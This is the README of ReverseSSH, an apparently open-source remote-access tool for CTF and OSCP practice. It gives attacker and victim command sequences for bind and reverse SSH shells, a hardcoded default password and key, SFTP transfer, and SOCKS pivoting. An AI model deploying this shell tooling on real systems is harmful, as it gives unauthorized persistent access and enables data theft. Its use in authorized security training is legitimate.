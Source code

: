 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

Has been developed and was extensively used during OSCP exam preparation.

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases/latest)**


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead you can go the way to simply deploy a **lightweight ssh server** (<1.5MB) onto the target and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (A fully interactive powershell on windows relies on the [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`. Before that, it still works, but you only get a somewhat interactive, generic reverse shell.)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* Supports **Unix** and **Windows** operating systems


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

```shell
reverseSSH v1.0.0-alpha  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; no effect for windows (default: /bin/bash)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prependend with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Simple, interactive shell access
$ssh -p <RPORT> <RHOST>

# Full-fledged file transfers
$sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy
$ssh -p <RPORT> -D 9050 <RHOST>
```

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh.pub) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Simple bind shell scenario

```shell
# Victim
$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request; can be omitted if you already have an ssh daemon running)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of another ssh daemon listening at port 22
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from above
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
$make

# or to additionally created binaries packed with upx
$make compressed
```

You can also specify a personalized password (`RS_PASS`) or authorized key (`RS_PUB`) when compiling:

```shell
$ssh-keygen -t ed25519 -f id_reverse-ssh

$RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**